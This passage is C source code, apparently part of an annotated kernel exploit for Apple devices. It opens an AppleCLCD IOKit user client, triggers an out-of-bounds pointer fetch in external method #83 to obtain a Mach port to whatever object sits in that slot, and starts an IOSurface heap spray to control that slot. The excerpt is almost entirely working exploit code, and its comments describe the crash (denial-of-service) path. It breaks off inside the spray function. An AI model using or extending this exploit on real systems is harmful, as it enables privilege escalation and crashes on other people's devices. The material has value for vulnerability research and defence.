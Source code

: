 ```c
printf("[*] AppleCLCD service: 0x%x\n", service);

// Open a user client connection to AppleCLCD with the chosen **type**.
ret = IOServiceOpen(service, mach_task_self(), type, &shared_user_client_conn);
if(ret != KERN_SUCCESS) {
printf("[-] failed to open userclient: %s\n", mach_error_string(ret));
return MACH_PORT_NULL;
}
printf("[*] AppleCLCD userclient: 0x%x\n", shared_user_client_conn);
return shared_user_client_conn;
}

// Trigger the OOB index path of external method #83.
// The 'offset' you pass is in bytes; dividing by 8 converts it to the
// index of an 8-byte pointer slot in the internal table at (this + 0xA58).
uint64_t trigger_oob(uint64_t offset) {
kern_return_t ret;

// The method takes a single 32-bit scalar that it uses as an index.
uint64_t scalars[1] = { 0x0 };
scalars[0] = offset / 8;   // **index = byteOffset / sizeof(void*)**.  ⭐

// #83 returns one scalar. In this flow it will be the Mach port name
// (a u32 handle in our task), not a kernel pointer.
uint64_t output_scalars[1] = { 0 };
uint32_t output_scalars_size = 1;

io_connect_t appleclcd_uc = get_appleclcd_uc();
if (appleclcd_uc == MACH_PORT_NULL) {
return 0;
}

// Call external method 83. Internally:
//   ptr = *(this + 0xA58 + index*8);         // OOB pointer fetch
//   IOSurfaceRoot::copyPortNameForSurfaceInTask(task, (IOSurface*)ptr, &out)
// which creates a send right for that object and writes its port name
// into output_scalars[0]. If ptr is junk → deref/panic (DoS).
ret = IOConnectCallMethod(appleclcd_uc, 83,
scalars, 1,
NULL, 0,
output_scalars, &output_scalars_size,
NULL, NULL);

if (ret != KERN_SUCCESS) {
printf("[-] external method 83 failed: %s\n",  mach_error_string(ret));
return 0;
}

// This is the key: you get back a Mach port name (u32) to whatever
// object was at that OOB slot (ideally an IOSurface you sprayed).
printf("[*] external method 83 returned: 0x%llx\n", output_scalars[0]);
return output_scalars[0];
}

// Heap-shape with IOSurfaces so an OOB slot likely contains a pointer to a
// real IOSurface (easier & stabler than a fully fake object).
bool do_spray(void) {
char data[0x10];
memset(data, 0x41, sizeof(data)); // Tiny payload for value spraying.

// Get IOSurfaceRootUserClient (reachable from sandbox/WebContent).
io_connect_t iosurface_uc = get_iosurface_root_uc();
if (iosurface_uc == MACH_PORT_NULL) {
```